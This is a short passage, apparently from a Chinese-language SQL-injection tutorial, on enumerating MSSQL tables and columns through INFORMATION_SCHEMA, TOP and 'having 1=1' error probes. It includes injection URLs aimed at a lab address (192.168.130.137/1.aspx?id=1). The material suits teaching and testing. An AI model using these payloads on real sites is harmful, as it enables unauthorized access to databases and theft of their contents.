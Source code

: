 因为mssql没有limit 所以只能用top 加上后面的判断来遍历数据


### 0x02 其他用法

当然查询数据库的所有表你还可以使用 `INFORMATION_SCHEMA.TABLES` 

```
select * from INFORMATION_SCHEMA.TABLES

select * from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='admin'

http://192.168.130.137/1.aspx?id=1 and 1=(select top 1 table_name from information_schema.tables
);--

```

![mysql](./img/1.4.4.png)


我们要判断当前表名和列名 也可以使用 `having 1=1` 和 `group by`

```
http://192.168.130.137/1.aspx?id=1 having 1=1

```
